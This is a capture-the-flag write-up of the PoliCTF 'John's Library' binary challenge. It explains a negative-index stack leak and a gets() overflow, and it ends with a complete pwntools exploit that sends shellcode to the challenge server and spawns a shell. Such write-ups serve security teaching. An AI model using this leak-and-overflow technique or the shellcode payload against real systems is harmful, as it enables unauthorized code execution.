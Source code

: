 ```yaml
---
layout: post
title:  "PoliCTF John's Library"
date:   2015-08-05 18:03:59
categories: CTF Pwnable
---
```


Do you like reading books? here we have the best collection ever! you can even save some books for future reading!! enjoy noob!

## Recon

We are presented with the following menu upon connection:

```
Welcome to the jungle library mate! Try to escape!!

r - read from library
a - add element
u - exit
```

There is two bits of functionality that we have access to

### Add book to library

```
 r - read from library
 a - add element
 u - exit
a
Hey mate! Insert how long is the book title:
8
deadbeef
```

With adding a book, we input two values:

* Length of the text
* The text itself

The interesting bit is that the length of each book is stored in a global array located at `0x804a060`. The text is stored in a buffer located on the stack. This address is passed to both the read and add functions as an argument.

### Reading from the library

```
 r - read from library
 a - add element
 u - exit
r
Insert the index of the book you want to read: 0
deadbeef
```

This function takes the index of a book and reads the information stored at that index. This calculation is done by reading the corresponding stored length from `0x804a060 + index`
and adding that length to the beginning of the buffer passed to the function (which is also on the stack).

### Vulnerabilities

There are two bugs in the code.

* The data stored in the buffer is read via a `gets()` call, causing a traditional stack overflow. This is exploited upon exiting the program.
* The length of the book isn't checked for being negative. This allows us to arbitrarily read valvues on the stack. It just so happens that the start of the buffer is pushed on the stack as a parameter to both read and add functions. An example stack is below (addresses are not accurate)

```
+-------------------+
| Pointer to buffer | 0x400000
+-------------------+
| .....             |
+-------------------+
| Buf               | 0x40001b
|                   |
|                   |
+-------------------+
```

### Exploit

The stack is randomized on the remote server. We can't hard code the stack address, as we won't know what it is at execution. We have to leak this address.

By supplying a `-0x1b` length for the first book and then reading that book's index, we can actually read the beginning of the buffer, giving us a static address to jump to for our shellcode.


Exploit will work as follows:

* Create a book with `-28` length (data for the book is irrevelent)
* Read that book via index 0 and retrieve the 4 bytes of the stack
* Add a second book, but this time overflow via `gets()` with our shellcode at the beginning of the buffer and returning to our leaked stack address.
* Exit the program via `u`
* ???
* Profit

### Final Exploit

```python
from pwn import *

"""
Both functions are given a pointer to a stack address (named BUFF)
Add function (overflow):
Drops the given length into a global buffer starting at 0x804a060
There is no negative check, so feeding a negative value passes the check
Vulnerable gets() function drops input into BUFF

Read (mem leak):
Takes the previously given length from add and adds that offset in BUFF
Because we can use negative values, we can looks backwards on the stack
to discover the beginning address of BUFF

Exit (trigger):
The overflow from the add isn't exploited until exiting the program
"""


# r = process('./johns-library')
r = remote('library.polictf.it', 80)

# Debugging help with gdb
'''
gdb.attach(r, """
bp 0x8048640
bp 0x8048742
c
""")
'''

log.info("Setting up leak of buffer")
r.sendline('a')
r.sendline(str(-28)) # Set len to subtract to find original buffer location
r.sendline()

log.info("Leaking buffer")
r.sendline('r')
r.sendline('1')
r.recv()
r.recv()
r.recvuntil('read: ')

ret = r.recv()[:4]

log.info('Got buffer: {}'.format(ret[::-1].encode('hex')))

log.info("Preparing shellcode")
shellcode = '\x90' * 900 + asm(shellcraft.sh())

payload = shellcode
payload += cyclic(cyclic_find('aaks') - len(shellcode))
payload += ret
payload += 'a' * (1000 - len(payload))

log.info("Sending shellcode")
r.sendline('a')
r.sendline(payload)

log.info("Exiting problem, causing the exploit")
r.sendline('u')

log.success("And your shell...")
r.interactive()
```
